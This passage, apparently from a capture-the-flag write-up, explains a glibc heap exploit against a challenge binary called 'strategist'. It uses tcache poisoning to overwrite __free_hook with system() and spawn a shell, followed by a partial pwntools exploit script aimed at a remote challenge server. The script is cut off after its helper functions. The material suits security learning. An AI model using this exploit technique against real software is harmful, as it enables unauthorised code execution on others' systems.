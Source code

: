 ```
Allocate a large chunk (0xa00-8 bytes) that will overlap with tcache entries due to the previous heap manipulation
The content is carefully crafted:
- Fill most of the chunk with 'z' characters
- Place a NULL qword (8 bytes of 0)
- Write 0x81 as a fake chunk size
- Write the address of __free_hook as a forward pointer
- Write a heap address as part of the fake chunk structure
```
### Final Exploit Chain
Final exploit trigger: When free() is called on the chunk containing `"/bin/sh\x00"`, the function pointer at `__free_hook` (now pointing to `system()`) will be called with that string as an argument, executing `system("/bin/sh")` and spawning a shell.
```py
createplan(b"/bin/sh\x00",0x68)
createplan(p64(system)+p64(0x0),0x70-8)
createplan(b'aaaa',0x10)
```
Allocate a chunk containing "/bin/sh\x00" (the command to be executed)
Allocate a chunk that, due to tcache poisoning, will be placed at __free_hook:
Overwrite __free_hook with the address of system()
Allocate one more small chunk (likely just a setup for the next step)


# Full code exploit

```py
from pwn import *


elf =context.binary = ELF('./strategist')
libc = ELF('./libc.so.6') 
#context.log_level = 'debug'
def start():
    return remote('94.237.51.14',38785)

p = start()

def createplan(content,size):
    p.sendlineafter(b'>',b'1')
    p.sendlineafter(b'>',str(size).encode())
    p.sendlineafter(b'>',content)


def showplan(idx):
    p.sendlineafter(b'>',b'2')
    p.sendlineafter(b'>',str(idx).encode())
    p.recvuntil(b':')
    return p.recvlines(2)

def editplan(idx,content):
    p.sendlineafter(b'>',b'3')
    p.sendlineafter(b'>',str(idx).encode())
    p.sendlineafter(b'>',content)

def deleteplan(idx):
    p.sendlineafter(b'>',b'4')
    p.sendlineafter(b'>',str(idx).encode())


# Initial heap leak setup
createplan(b'',0x500)  # 0
createplan(b'aaaa',0x20)  # 1
```